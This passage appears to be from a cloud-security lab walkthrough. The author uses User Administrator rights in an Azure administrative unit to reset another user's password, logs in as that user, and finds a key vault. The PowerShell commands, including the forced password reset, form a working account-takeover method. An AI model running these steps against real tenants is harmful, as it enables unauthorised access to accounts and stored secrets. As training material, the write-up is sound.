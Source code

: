 Let's see if there is anyone that we have `User Administrator` permissions to by checking the members of the administrative unit.
```
└─PS> Get-MgDirectoryAdministrativeUnitMember -AdministrativeUnitId 4a3288aa-1a8b-485a-8ced-2bd80feef625                                                                                                                                    

Id                                   DeletedDateTime
--                                   ---------------
f5597fb4-82b3-4b25-9dfb-761a25f36f67 
```
```
└─PS> Get-MgUser -UserId f5597fb4-82b3-4b25-9dfb-761a25f36f67

DisplayName     Id                                   Mail UserPrincipalName
-----------     --                                   ---- -----------------
Felix Schneider f5597fb4-82b3-4b25-9dfb-761a25f36f67      Felix.Schneider@megabigtech.com
```

If we run `Get-MgUser -UserId f5597fb4-82b3-4b25-9dfb-761a25f36f67 | fl`, it also returns the job title `Engineer`.

Let's reset Felix's password
```
$params = @{
    passwordProfile = @{
        forceChangePasswordNextSignIn = $false
        password = "NewSecurePassword123!"
    }
}
```
```
└─PS> Update-MgUser -UserId Felix.Schneider@megabigtech.com -BodyParameter $params
```

Now let's authenticate
```
└─PS> Connect-AzAccount -AccountId "Felix.Schneider@megabigtech.com"
Please select the account you want to login with.

Retrieving subscriptions for the selection...

Subscription name           Tenant
-----------------           ------
Microsoft Azure Sponsorship Default Directory
```

Now if we check resources, we have access to a key vault named `Engineering-Vault1`
```
└─PS> Get-AzResource

Name              : Engineering-Vault1
ResourceGroupName : mbt-rg-13
ResourceType      : Microsoft.KeyVault/vaults
Location          : eastus
ResourceId        : /subscriptions/ceff06cb-e29d-4486-a3ae-eaaec5689f94/resourceGroups/mbt-rg-13/providers/Microsoft.KeyVault/vaults/Engineering-Vault1
Tags             
```
